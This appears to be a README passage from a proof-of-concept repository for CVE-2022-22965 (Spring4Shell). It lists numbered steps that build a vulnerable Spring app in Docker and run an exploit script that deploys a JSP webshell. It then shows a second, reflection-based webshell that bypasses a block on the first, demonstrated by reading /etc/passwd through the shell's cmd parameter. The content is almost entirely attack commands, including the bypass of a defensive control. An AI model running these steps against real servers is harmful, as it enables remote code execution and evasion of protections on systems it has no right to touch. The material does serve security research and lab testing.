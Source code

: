 1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit-bypass-with-reflection -f bypass-using-reflection-abuse/Dockerfile
4. docker run -p 8080:8080  cve-2022-22965-exploit-bypass-with-reflection
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="basic" 
8. curl "http://localhost:8080/basic.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
![block.png](block.png)
9. Now deploy another webshell that uses reflection;
`   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection" 
`
10. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
 ![bypass.png](bypass.png)